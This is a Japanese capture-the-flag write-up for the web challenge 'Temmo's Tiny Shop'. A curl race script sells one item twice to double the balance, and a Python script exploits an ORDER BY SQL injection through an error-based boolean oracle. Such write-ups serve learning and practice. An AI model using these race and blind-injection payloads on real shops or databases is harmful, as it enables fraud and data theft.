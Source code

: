 ## [Web] Temmo's Tiny Shop

与えられた URL にアクセスすると、いろいろなものの売買ができるショッピングサイトが動いていました。

`!HINT!` を購入すればいいようですが、価格は 8000 で所持金は 4000 しかないので買えません。

```shell
#!/bin/bash
username="..."
password="..."
cookie1="PHPSESSID=sgilto2ldg2mma0anobeqdnkg1"
cookie2="PHPSESSID=sgilto2ldg2mma0anobeqdnkg2"
url="http://202.120.7.197/app.php"

curl "$url?action=login" -b $cookie1 -d "username=$username&pwd=$password" &\
curl "$url?action=login" -b $cookie2 -d "username=$username&pwd=$password"

curl "$url?action=buy&id=1" -b $cookie1

curl "$url?action=sale&id=1" -b $cookie1 &\
curl "$url?action=sale&id=1" -b $cookie2
```

を実行してみると価格が 4000 の Frostmourn を二重に売ることができました。これで所持金が 8000 になり `!HINT!` を購入できました。

infos を開くと購入したものの情報を見ることができ、

> OK! Now I will give some hint: you can get flag by use `select flag from ce63e444b0d049e9c899c9a0336b3c59`

とありました。

`/app.php?action=search&keyword=_&order=price` にアクセスしてみると、購入したものの価格などの情報を価格順で表示できました。試しに `order=1` に変えてみるとエラーなしに情報が表示されました。order by 句で SQLi ができそうです。

`order=cot(0)` だとエラーが発生し、`order=cot(1)` だとエラーは発生しませんでした。これを利用して `order=cot(if((条件),1,0))` のようにすると、条件が成立したときにはエラーが発生し、そうでない場合にはエラーが発生しないというようにできます。

あとは

```python
import requests
import sys

def check(s):
  if 'WAF' in s:
    raise Exception('WAF~><')
  if 'login plz' in s:
    raise Exception('login plz~><')
  return 'suc' in s

url = 'http://202.120.7.197/app.php?action=search&keyword=_&order=cot(if((%s)regexp(0x%s),1,0))'

print url % (sys.argv[1], sys.argv[2].encode('hex'))
print check(requests.get(url % (sys.argv[1], sys.argv[2].encode('hex')), cookies={
  'PHPSESSID': 'xxx'
}).content)
```
